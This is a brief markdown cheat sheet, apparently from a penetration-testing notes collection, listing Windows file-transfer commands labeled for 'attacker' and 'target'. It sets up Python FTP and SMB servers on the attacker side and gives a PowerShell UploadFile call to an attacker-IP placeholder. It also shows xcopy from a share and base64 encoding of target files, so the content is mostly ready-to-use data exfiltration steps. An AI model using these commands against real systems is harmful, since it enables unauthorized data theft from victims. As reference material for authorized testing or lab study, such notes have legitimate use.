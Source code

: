 # Table of content

- [Table of content](#table-of-content)
- [return to index](INDEX.md)
  - [Windows - Uploads commands](#windows---all-commands)
    - [Upload a file - FTP](#upload-a-file---ftp)
    - [Upload a file - SMB](#upload-a-file---smb)
    - [Transfer file from target to attacker](#transfer-file-from-target-to-attacker)

## Windows - Uploads commands

### Upload a file - FTP

launch on the attacker a ftp server using python

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

then on the target you can transfer whatever you want

```cmd
(New-Object Net.WebClient).UploadFile('ftp://$monIp/ftp-hosts', '$cheminFichier')
```

### Upload a file - SMB

launch on the attacker a smb server using python

```bash
python3 smbserver.py -smb2support MYSHARE /path/to/shared/directory
```

then on the target

```cmd
xcopy \server\MYSHARE\file.txt C:\path\to\local\directory\
```

### Transfer file from target to attacker

encode in b64 on the target

```cmd
[Convert]::ToBase64String((Get-Content -path "$fichier" -Encoding byte))
```

then on the attacker

```bash
echo $base64 | base64 -d > $fichier
```
